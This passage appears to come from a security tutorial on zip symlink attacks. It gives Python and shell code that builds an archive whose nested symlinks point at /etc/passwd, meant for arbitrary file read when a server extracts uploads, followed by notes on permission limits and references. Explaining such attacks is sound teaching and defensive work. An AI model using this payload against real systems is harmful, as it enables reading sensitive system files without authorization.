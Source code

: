 For a double symlink attack (file symlink + dir symlink), we just combine the two methods and create two symlinks.

```python
# evil-link-dir.zip
# └── dirlink/           -> /some/readable/directory/
#     └── passwd.html    -> /etc/passwd
with zipfile.ZipFile("evil-link-dir-file.zip", "w", compression=zipfile.ZIP_DEFLATED) as zip:
  # Order matters! Write dir first, then file.
  info = zipfile.ZipInfo("dirlink")
  info.create_system = 0
  info.external_attr = (stat.S_IFLNK | 0o777) << 16
  zip.writestr(info, "/some/readable/directory/")

  info = zipfile.ZipInfo("dirlink/passwd.html")
  info.create_system = 0
  info.external_attr = (stat.S_IFLNK | 0o777) << 16
  zip.writestr(info, "/etc/passwd")
```

{% enddetails %}

{% details "With Shell Commands" %}
Shell commands also work. (Make sure to use `-y`/`--symlinks` when zipping symlinks. Otherwise, you'd be adding your actual `/etc/passwd`!)

Double symlink payload construction:

```sh {.command-line data-prompt="$" data-filter-output="# "}
# Create our (soft) links.
ln -s /some/readable/directory/ dirlink
ln -s /etc/passwd dirlink/passwd.txt
# Zip the links. (Order matters!)
zip -y evil-link-dir-file dirlink dirlink/passwd.txt
```

Note that this approach will leave leftover files.
{% enddetails %}

#### Limitations of Zip Symlink Attacks

- Permissions on Linux.
  - To create a symlink, we need execute permissions in the source directory (where the linked file is located) and write/execute permissions in the target directory (where the symlink is created).[^ref-linuxlinkperm]
  - Reading a symlink requires execute permissions in the source directory, and read permissions on the source file.
- Permissions on Windows. By default, only Administrators have the privilege to [create symbolic links](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/create-symbolic-links). This setting can be changed by [editing the local group policy](https://superuser.com/a/105381) or by directly enabling `SeCreateSymbolicLinkPrivilege`.
- Although symlink attacks are cool and all, they're relatively rare (in the wild) compared to Zip Slip. Perhaps symlinks are handled with extra care.

[^ref-linuxlinkperm]: Reference: [SO: Minimum Permissions Required to Create a Link to a File](https://stackoverflow.com/questions/40667014/linux-what-are-the-minimum-permissions-required-to-create-a-link-to-a-file)



[^really-by-extension]: Okay, some steps were skipped here for the sake of simplicity. The long answer is: reading a symlink also depends on permissions of the {% abbr "source file", "the file linked by the symlink" %} and the {% abbr "source directory", "the directory containing the source file" %}. ***If*** we can read files in our upload directory **and** if we have sufficient permissions, then we can (potentially) have arbitrary file read. See [Limitations](#limitations-of-zip-symlink-attacks).
[^deflate]: This is the same compression algorithm used in gzip (commonly used for transferring files across the web) and PNGs.
[^fifield]: Fifield's article on "a better zip bomb": *https://www.bamsoftware.com/hacks/zipbomb/*. (It may be blocked on some browsers.)
[^zip-spec]: Reference: [PKWare Mirror](https://pkware.cachefly.net/webdocs/casestudies/APPNOTE.TXT)